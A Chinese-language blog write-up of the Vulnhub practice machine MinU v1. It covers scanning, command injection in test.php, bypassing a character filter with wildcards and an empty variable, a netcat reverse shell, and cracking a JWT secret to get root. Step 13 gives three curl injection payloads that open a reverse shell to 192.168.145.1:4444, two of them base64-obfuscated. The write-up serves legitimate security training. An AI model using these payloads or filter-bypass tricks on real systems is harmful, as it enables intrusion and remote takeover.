 ```yaml
---
layout: post
title: Vulnhub-MinUV1-writeup
description: >
  这是vulnhub上靶机MinUV1的writeup
tags: [技术]
author: author1
accent_image:          /assets/img/sidebar-bg.jpg
accent_color:          '#4fb1ba'
---
```


# MinUV1的writeup

## 测试过程
1. 下载靶机后，使用Virtualbox导入后开机直接获得IP，省掉了主机存活发现的环节
  ![Full-width image](/assets/img/docs/MlnUV1/1.png)
2. 拿到后直接使用nmap进行扫描看开起来那些服务，扫描仅发现了80端口,(一般先进行常规端口扫描，全端口在有必要的情况下可在对web或者其他常见服务进行测试时进行扫描，可有效节省时间)
    ![Full-width image](/assets/img/docs/MlnUV1/2.png)
3. 访问80端口发现是Apache默认页面，大致查看过后并无其他发现，用dirb或者wfuzz(wfuzz的使用教程有一个老哥介绍很清楚可以去看下一下，['此处为传送门'](https://www.freebuf.com/author/m0nst3r))进行一下目录扫描
    ![Full-width image](/assets/img/docs/MlnUV1/3.png)
    ![Full-width image](/assets/img/docs/MlnUV1/4.png)
4. 两者均发现了test.php,按照惯例进行访问并哪里不会点哪里；点的时候要注意地址栏的变化；惯例进行源码的查看，发现这个链接有存在文件包含漏洞的嫌疑
    ![Full-width image](/assets/img/docs/MlnUV1/5.png)
    ![Full-width image](/assets/img/docs/MlnUV1/6.png)
5. 依旧用wfuzz试一下，通过wfuzz可以省去很多手工上的繁琐，偷偷懒
    ![Full-width image](/assets/img/docs/MlnUV1/7.png)
6. 通过wfuzz的结果可以看到存在大量的字符数为1986的页面，尝试访问一个发现非常正常，于是可以通过--hh将字符数为1986的排除掉，这样结果更加精简了
    ![Full-width image](/assets/img/docs/MlnUV1/8.png)
    ![Full-width image](/assets/img/docs/MlnUV1/9.png)
    ![Full-width image](/assets/img/docs/MlnUV1/10.png)
7. 通过对剩下几个payload进行访问，发现并非文件包含漏洞，而是命令执行漏洞
    ![Full-width image](/assets/img/docs/MlnUV1/11.png)
    ![Full-width image](/assets/img/docs/MlnUV1/12.png)
8. 经过尝试发现很多命令执行不了，可以判断该处漏洞应该存在过滤手段
    ![Full-width image](/assets/img/docs/MlnUV1/13.png)
9. 在测试过程中发现rev命令是可用的，rev命令可以实现字符的反序输出，可以通过rev来读源码    
>
  **NOTE**:rev命令 将文件中的每行内容以字符为单位反序输出，即第一个字符最后输出，最后一个字符最先输出，依次类推
    ![Full-width image](/assets/img/docs/MlnUV1/14.png)

10. 尝试通过rev命令来读取test.php的内容
    ![Full-width image](/assets/img/docs/MlnUV1/15.png)
11. 由于反序输出不便阅读，可以在terminal中通过管道符进行再次反序然后即可得到正序的文件内容
    ![Full-width image](/assets/img/docs/MlnUV1/16.png)
12. 可以看到test.php中执行的命令是shell_exec('cat'.GET['file'])，获取file参数然后cat出来，既然知道文件内容了就可以进行payload的构造，在payload的构造中有很多种方法，但是需要不断的尝试有哪些限制字符。对参数进行fuzz一下看哪些是可用的(此处需要自己构造字典，想好要执行那些命令，然后分别用不同的方式表示出来形成字典再fuzz)
    ![Full-width image](/assets/img/docs/MlnUV1/17.png)
13. 根据fuzz的结果得出部分可用字符，通过这些字符可以组合payload，此处列举三个：(其中20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK为nc -e /bin/sh 192.168.145.1 4444的base64编码)，可自行发散思路测试多种命令，组合出多种payload
>
*curl -s 'http://192.168.145.5/test.php?file=%26/bin$u/echo$u%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK|/usr$u/bin$u/base64$u%20-d|/bin$u/sh$u'
*curl -s 'http://192.168.145.5/test.php?file=%26/bin/ech?%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK|/u?r/b?n/b?se64%20-d|/b?n/sh'
*curl -s 'http://192.168.145.5/test.php?file=%26/b?n/nc$u%20-e%20/b?n/sh$u%20192.168.145.1%204444'

>
  **NOTE**:此处主要利用到了两个知识点：1是linux下所有皆文件，因此各种可执行程序都是在可找到的文件，而在找文件的过程中是可以利用通配符的，可以利用该特性对过滤进行绕过，另一点就是使用空变量$u，linux中是可以存在空变量的，直接被系统视为空字符串，空变量不会对输出造成影响，可以借此来绕过基于正则表达式的过滤器和模式匹配此处参见['secist'](https://www.freebuf.com/author/secist)大佬['绕过CloudFlare WAF和ModSecurity OWASP CRS3核心规则集的技巧介绍'](https://www.freebuf.com/articles/web/184414.html)的文章

14. 现在可以getshell了，先监听端口4444(（由于我的网络是靶机为仅host模式，而kali为nat模式通过将物理机的4444网卡映射到了kali上，所以此处看到的是来自10.0.2.2的连接，这不是重点）)
    ![Full-width image](/assets/img/docs/MlnUV1/18.png)
15. 此时拿到的只是shell,并非tty:使用SHELL=/bin/bash script -q /dev/null可以将shell提升成tty,找一下有没有可以直接拿来提权的程序，可惜在我的知识中这些都好像没有，泪奔.....
    ![Full-width image](/assets/img/docs/MlnUV1/19.png)
16. 看一下Linux内核版本，看是否有可利用的漏洞，找到可用的然后gcc编译一下
    ![Full-width image](/assets/img/docs/MlnUV1/20.png)    
    ![Full-width image](/assets/img/docs/MlnUV1/21.png)
    ![Full-width image](/assets/img/docs/MlnUV1/22.png)  
17. EXP准备就绪后开始准备上传，先在本机用python搭个简易的web服务器，然后找一个可写文件夹，尝试下载下来
    ![Full-width image](/assets/img/docs/MlnUV1/23.png)
    ![Full-width image](/assets/img/docs/MlnUV1/24.png)
    ![Full-width image](/assets/img/docs/MlnUV1/25.png)    
18. 很尴尬的是发现下载下来大小为0，查看一下磁盘发现磁盘满了。不知道这是作者有意的还是我的环境有问题.....所以通过这种方式提权看来要拉闸了
    ![Full-width image](/assets/img/docs/MlnUV1/26.png)
19. 在系统瞎逛逛，发现了home目录下bob的文件夹有隐藏文件(一般home目录下的要重点关注)，查看一下发现存在一个__pw__的文件，里面写的东西我也看不懂，直觉告诉我这很重要。于是找了国外大佬的文章看解析。发现是['Json web tokens'](http://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)
    ![Full-width image](/assets/img/docs/MlnUV1/27.png)
20. 尝试使用['jwtrack'](https://github.com/brendan-rius/c-jwt-cracker)进行破解,破解成功。得到密钥是mlnV1
    ![Full-width image](/assets/img/docs/MlnUV1/28.png)
21. 尝试登陆，发现登陆root成功，并且在root文件夹下发现flag文件，cat一下
    ![Full-width image](/assets/img/docs/MlnUV1/29.png)
>
**附上参考的两位大佬的解析地址**:
*https://medium.com/@honze_net/vulnhub-minu-1-write-up-8032fdda5939
*https://hackso.me/minu-1-walkthrough/
